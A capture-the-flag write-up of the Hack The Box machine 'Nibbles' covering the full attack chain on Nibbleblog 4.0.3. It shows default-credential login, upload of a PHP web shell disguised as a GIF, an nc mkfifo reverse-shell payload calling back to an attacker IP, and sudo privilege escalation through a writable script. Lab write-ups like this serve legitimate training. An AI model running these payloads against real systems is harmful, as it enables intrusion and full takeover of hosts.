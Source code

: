## Nibbles

__Machine IP: 10.10.10.75__  

__Difficulty: medium__



## Scanning

### Nmap Scanning

```bash
$ nmap -sC -sV  -oA nmap/nibbles.nmap 10.10.10.75
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-04 06:57 EDT
Nmap scan report for 10.10.10.75
Host is up (0.096s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.32 seconds
```

- Home Wegpage
![hompeage](images/homepage.PNG)

- on `view page source` found
```html
<b>Hello world!</b>
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

![nibble_blog](images/nibble_blog.PNG)


### Enumeration

- on running gobuster, found

```bash
$ gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u  http://10.10.10.75/nibbleblog/
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.75/nibbleblog/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/09/04 07:02:09 Starting gobuster
===============================================================
/content (Status: 301)
/themes (Status: 301)
/admin (Status: 301)
/plugins (Status: 301)
/README (Status: 200)
/languages (Status: 301)
Progress: 22161 / 220561 (10.05%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2021/09/04 07:05:53 Finished
===============================================================

```

- on `README` access, found the version of `nibbleblog` 

```bash
====== Nibbleblog ======
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01
```

- on searching `google git`, found 

![nibble_blog_git](images/nibble_blog_git.PNG)
- on trial found `install.php`

![install](images/install.PNG)

- On clicking `update`
![nibblenlog_onupadted][nibblenlog_onupadted.PNG]
- then visited  `admin.php` page

![admin_page](images/admin_page.PNG)

- on searching deafult credentials found `admin:nibbles` and tried.

__Result__
![admin_after_login](images/admin_after_login.PNG)

- On trying `php shell` upload on `My Image Plugin`, able to execute code

![image_upload](images/image_upload.PNG)

- `shell.php`

```bash
$ cat shell.php  
GIF8;
<?php echo system($_REQUEST['code']); ?>

```


- uploaded images can be found in `http://10.10.10.75/nibbleblog/content/private/plugins/my_image/` - where its saved as `image.php`

__Result__

![code_Execution](images/code_Execution.PNG)

- create a reverse shell and set up a listener on kali

__Request__ (changed method to `POST`)
```php
POST /nibbleblog/content/private/plugins/my_image/image.php HTTP/1.1
Host: 10.10.10.75
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=voirb89373gb9d8vi172bn7b21
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 88

cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.12+9002+>/tmp/f
```

__payload__

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.12 9002 >/tmp/f

```

__Result__

```bash
$ nc -lvnp  9002
listening on [any] 9002 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.75] 41028
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibble
```



### Privilege escalation

- on running `sudo -l`

```bash
$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

```

- directories doesnt exists in nibbler create and write file `monitor.sh` with
```bash
$ cat monitor.sh                               1 ⚙
#!/bin/sh

sh
```

- on executing `monitor.sh`, 
```bash
$ sudo ./monitor.sh
```

__Result__

```bash
$ sudo ./monitor.sh
id
uid=0(root) gid=0(root) groups=0(root)
```



